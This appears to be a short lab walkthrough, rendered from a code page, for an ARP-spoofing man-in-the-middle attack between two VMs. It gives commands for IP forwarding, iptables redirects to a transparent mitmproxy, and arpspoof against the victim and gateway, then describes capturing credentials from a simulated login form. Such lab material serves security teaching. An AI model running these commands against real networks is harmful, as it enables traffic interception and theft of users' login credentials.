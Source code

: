 ```bash
which mitmproxy
which arpspoof

# check interface name (should be eth0)
ip -o -4 addr show | grep '192\.168\.99\.' -n

sudo sysctl -w net.ipv4.ip_forward=1

# HTTP redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 80  -j REDIRECT --to-port 8080
# HTTPS redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 443 -j REDIRECT --to-port 8080

# confirm
sudo iptables -t nat -L PREROUTING -n -v --line-numbers | grep 192.168.99.2

sudo mitmproxy --mode transparent --listen-port 8080 --showhost

# you need 2 new terminal windows concurrently for ARP spoofing
# open a new terminal (terminal A)
sudo arpspoof -i <IFACE> -t 192.168.99.2 192.168.99.1
# open a new terminal (terminal B)
sudo arpspoof -i <IFACE> -t 192.168.99.1 192.168.99.2
```

And then, on the victim VM, open the browser and go to:
- http://victim.com (HTTP)

fill out the simulated login form and submit it, then get back to the attacker's VM (kali linux), if everything is correct, you should be able to capture the login information.
